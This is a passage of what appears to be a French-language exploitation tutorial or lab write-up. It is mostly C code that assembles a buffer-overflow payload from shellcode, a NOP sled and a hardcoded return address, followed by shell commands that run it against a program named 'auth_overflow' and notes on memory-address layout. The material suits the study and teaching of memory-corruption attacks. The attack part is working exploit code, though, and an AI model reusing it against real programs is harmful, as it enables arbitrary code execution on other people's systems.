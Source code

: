 ```c
        "\x0f\x05";                                 // syscall

    // Adresse de retour en little-endian
    unsigned char ret_addr[] = "\xb0\xdd\xff\xff\xff\x7f\x00\x00";

    // Calculer les tailles
    size_t shellcode_size = sizeof(shellcode) - 1;
    size_t ret_addr_size = sizeof(ret_addr) - 1;
    size_t nop_size = 12;

    // Buffer pour le payload
    char buffer[1024];
    memset(buffer, 0x90, sizeof(buffer));

    // Copier le shellcode au début du buffer
    memcpy(buffer, shellcode, shellcode_size);

    // Ajouter des NOPs après le shellcode
    memset(buffer + shellcode_size, 0x90, nop_size);

    // Ajouter l'adresse de retour après les NOPs
    memcpy(buffer + shellcode_size + nop_size, ret_addr, ret_addr_size);

    // Terminer la chaîne
    buffer[shellcode_size + nop_size + ret_addr_size] = '\0';

    // Écrire le payload
    fwrite(buffer, shellcode_size + nop_size + ret_addr_size, 1, stdout);

    return 0;
}
```

### Compilation et utilisation
```bash
gcc -o payload payload.c
./auth_overflow $(./payload)
```

## Considérations importantes

### Architecture de la virtualisation

En environnement virtualisé, les adresses mémoire peuvent commencer par `0x0000f` au lieu de `0xfffff`. Ceci influence l'ordre du payload :

- **Format utilisé :** `[shellcode][nop sled][adresse de retour]`
- **Raison :** Éviter que `strcpy()` s'arrête aux octets nuls de l'adresse de retour

### Sécurité
